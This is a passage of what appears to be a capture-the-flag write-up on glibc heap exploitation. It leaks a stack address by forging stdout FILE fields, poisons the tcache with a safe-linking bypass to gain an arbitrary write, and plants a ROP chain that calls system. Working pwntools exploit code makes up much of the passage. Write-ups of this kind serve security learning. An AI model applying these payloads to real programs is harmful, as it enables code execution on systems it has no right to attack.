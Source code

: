 To avoid the `_IO_SYSSEEK` which could break stdout, we can add `_IO_IS_APPENDING` to `fp->_flags`. Then `_IO_SYSWRITE` is called and prints `(_f)->_IO_write_ptr-(_f)->_IO_write_base` bytes from `(_f)->_IO_write_base` to stdout. But that's not finished, right after we got the stack leak `new_do_write` initializes the output / input buffer to `_IO_buf_base` except for the output buffer which is initialized to `_IO_buf_end` (`_IO_LINE_BUF` not present). Thus we have to make `fp->_IO_buf_base` and `fp->_IO_buf_end` equal to valid writable pointers.

Thus we just need to:
- `fp->_flags` = (`fp->_flags` & ~(`_IO_NO_WRITES`)) | `_IO_CURRENTLY_PUTTING` | `_IO_IS_APPENDING`.
- `f->_IO_write_ptr` = `fp->_IO_write_end` = `f->_IO_buf_end` = `&environ + 8`.
- `fp->_IO_write_base` = `&environ`.

Which gives:
```py

alloc(3, 
    pwn.p64(0xfbad1800) + # _flags
    pwn.p64(environ)*3 + # _IO_read_*
    pwn.p64(environ) + # _IO_write_base
    pwn.p64(environ + 0x8)*2 + # _IO_write_ptr + _IO_write_end
    pwn.p64(environ + 8) + # _IO_buf_base
    pwn.p64(environ + 8) # _IO_buf_end
    , 0x100) 

stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x130 - 8 
# Offset of the saved rip that belongs to frame of the op_malloc function
pwn.log.info(f"stack: {hex(stack)}")

```

# ROPchain

Now we leaked the stack address we finally just need to achieve another arbitrary write to craft the ROPchain onto the `op_malloc` function that writes the user input into the requested chunk.

To get the arbitrary write we just have to use the same overlapping chunks technique than last time, let's say we wanna write to `target` and we have `prev` that overlaps `victim`:
- `free(prev)` ends up in the tcachebin (0x140), it has already been consolidated, it *already* overlaps `victim`.
- `free(victim)` ends up in the tcachebin (0x110).
- `malloc(0x130)` returns `prev`, thus we can corrupt `victim->next` and intialize it to `(target ^ ((chunk_location) >> 12)` to bypass safe-linking.
- `malloc(0x100)` returns `victim` and tcachebin (0x110) next free chunk is `target`.
- `malloc(0x100)` gives a write what where.

When we got the write what where on the stack we simply have to craft a call ot system since there is no `seccomp` shit.
Here is the script:
```py
free(1) # prev
free(2) # victim

alloc(5, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stack ^ ((heap + 0xb20) >> 12))), 0x130)
# victim->next = target
alloc(2, b"TT", 0x100)

alloc(3, pwn.p64(stack) + rop.chain(), 0x100) # overwrite sRBP for nothing lmao
# ROPchain on do_malloc's stackframe
```
